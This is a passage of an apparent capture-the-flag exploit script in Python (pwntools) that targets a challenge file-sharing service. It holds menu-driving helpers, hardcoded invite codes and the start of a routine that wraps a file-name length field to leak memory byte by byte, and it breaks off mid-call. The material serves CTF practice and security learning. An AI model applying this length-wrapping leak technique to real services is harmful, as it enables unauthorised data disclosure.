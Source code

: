 ```py


def connect():
    return remote("myfiles.chal.irisc.tf", 10001)
    return process("./chal_patched")
    return gdb.debug("./chal_patched", """
        # b *readZipInfo + 0x1A1
        c
    """)


def create_user(io, username: str, password: str):
    io.clean()
    io.sendline(b"3")
    io.clean()
    io.sendline(invite_code.encode())
    io.clean()
    io.sendline(username.encode())
    io.clean()
    io.sendline(password.encode())
    io.clean()


def view_file(io, user: int, password: str, file: int) -> bytes:
    io.clean()
    io.sendline(b"5")
    io.clean()
    io.sendline(str(user).encode())
    io.clean()
    io.sendline(password.encode())
    io.clean()
    io.sendline(str(file).encode())
    return io.clean().split(b"\n")[0]


def view_flag(io, user: int, password: bytes) -> bytes:
    io.clean()
    io.sendline(b"6")
    io.clean()
    io.sendline(str(user).encode())
    io.clean()
    io.sendline(password)
    return io.clean().split(b"\n")[0]


invite_code = "terrible-red-busses"
invite_code = "yelling-pixel-corals"

def leak_invite_code(io) -> bytes:
    offset_to_invite_code = 502
    gap_size = 512 + 4
    file_name = "invitecode.txt"
    required_content_length = 10
    current_offset = required_content_length - 1
    retrieved_invite_code = ""
    current_payload = file_name[-(required_content_length - 1):]

    while True:
        upload_file(io, TOM, {
            "file_name": "test.txt",
            "content": "A" * 10,
            "file_name_len": -(offset_to_invite_code + gap_size * len(retrieved_invite_code) + current_offset) + 2**16,
```